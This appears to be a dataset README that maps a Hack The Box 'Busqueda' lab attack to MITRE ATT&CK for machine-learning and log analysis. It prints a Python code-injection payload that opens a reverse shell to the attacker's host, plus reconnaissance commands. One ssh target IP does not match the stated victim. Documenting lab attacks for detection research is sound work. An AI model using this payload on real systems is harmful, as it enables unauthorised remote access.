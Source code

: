 # Cyber4ML_Framework application in "Busqueda" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.54|10.10.11.208|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Busqueda Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Busqueda/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Gather Victim Host Information | Software | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | -/CWE-94 |
| Execution | Exploitation for Client Execution | - | (1) | -/CWE-94 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Credential Access | Credentials from Password Stores | Password Managers | - | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Discovery | Permission Groups Discovery | Local Groups | (5) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | - |

#### Commands/Scripts
- (1)
```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.54',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

- (2)
```
whoami
```

- (3)
```
find /var/www/ -type f -iname "*config*" 2>/dev/null
```

- (4)
```
ssh player@10.10.11.194
```

- (5)
```
sudo -l
```

## Network Data

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Busqueda/attack_capture.pcapng)

## Malicious Log Data

```
HTTP/1.1 200 OK
Date: Thu, 11 May 2023 12:07:38 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
```
